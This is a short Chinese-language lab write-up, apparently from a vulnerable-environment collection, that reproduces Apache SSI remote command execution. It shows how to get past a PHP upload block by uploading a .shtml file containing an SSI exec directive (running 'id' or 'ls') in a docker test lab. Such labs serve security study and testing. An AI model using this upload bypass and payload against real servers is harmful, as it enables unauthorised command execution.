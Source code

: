 # Apache SSI 远程命令执行漏洞

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 漏洞环境

运行一个支持SSI与CGI的Apache服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

```shtml
<!--#exec cmd="ls" -->
```

![](1.png)

成功上传，然后访问shell.shtml，可见命令已成功执行：

![](2.png)
